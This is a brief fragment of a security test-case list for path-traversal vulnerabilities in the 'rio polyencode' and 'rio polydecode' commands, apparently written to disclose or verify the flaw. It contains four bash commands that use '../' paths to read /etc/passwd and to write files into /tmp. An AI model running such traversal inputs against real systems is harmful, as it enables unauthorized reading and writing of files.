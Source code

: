 - **Security Test Case:**
    1. **Test Case 1: Arbitrary File Read using `rio polyencode`:**
        ```bash
        rio polyencode ../../../../etc/passwd output.tif input.tif
        ```
        - **Expected Result:** Attempt to read `/etc/passwd`.

    2. **Test Case 2: Arbitrary File Write using `rio polyencode`:**
        ```bash
        rio polyencode input.tif ../../../../tmp/output.tif
        ```
        - **Expected Result:** File `output.tif` is created in `/tmp`.

    3. **Test Case 3: Arbitrary File Read using `rio polydecode`:**
        ```bash
        rio polydecode ../../../../etc/passwd output.tif 10
        ```
        - **Expected Result:** Attempt to read `/etc/passwd`.

    4. **Test Case 4: Arbitrary File Write using `rio polydecode`:**
        ```bash
        rio polydecode input.tif ../../../../tmp/output.tif 10
        ```
        - **Expected Result:** File `output.tif` is created in `/tmp`.